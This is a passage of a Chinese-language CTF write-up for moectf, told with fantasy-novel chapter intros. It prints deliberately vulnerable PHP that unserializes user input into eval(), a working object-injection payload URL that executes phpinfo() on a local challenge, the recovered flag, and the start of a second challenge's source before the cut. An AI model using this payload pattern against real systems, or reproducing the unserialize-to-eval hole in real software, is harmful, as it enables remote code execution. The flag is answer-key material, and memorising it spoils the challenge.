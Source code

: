 > 黑猫挥出的数据风暴将三人卷入一座无尽书阁。檀木书架高耸入云，其上玉简如星河铺展，每一卷都流淌着大道符文。阁中央悬浮着墨玉棋局，三百六十一枚棋子皆由压缩的功法代码凝成。

```php
 <?php
highlight_file(__FILE__);

class PersonA {
    private $name;
    function __wakeup() {
        $name=$this->name;
        $name->work();
    }
}

class PersonB {
    public $name;
    function work(){
        $name=$this->name;
        eval($name);
    }

}

if(isset($_GET['person'])) {
    unserialize($_GET['person']);
} 
```

```
http://127.0.0.1:54605/?person=O:7:"PersonA":1:{s:13:"%00PersonA%00name";O:7:"PersonB":1:{s:4:"name";s:10:"phpinfo();";}}
```

在`phpinfo()`的`env`里找到了`flag`。

```
moectf{77f0400b-f11a-812b-e1a4-78d0f2627b5d}
```

## 19 第十九章 星穹真相·补天归源

> 空间裂缝闭合的刹那，三人坠入一片混沌星穹。这里没有天地之分，只有无数破碎的镜面悬浮流转，每一面镜子都映照出不同的时空片段——有玄天剑宗的庆功宴，有葬星古墟的惨战，甚至还有HDdss幼时在赵家偏院练剑的青涩模样。

```php
<?php
highlight_file(__FILE__);

class Person
{
    public $name;
    public $id;
    public $age;

    public function __invoke($id)
    {
        $name = $this->id;
        $name->name = $id;
        $name->age = $this->name;
    }
}

class PersonA extends Person
{
    public function __destruct()
    {
        $name = $this->name;
```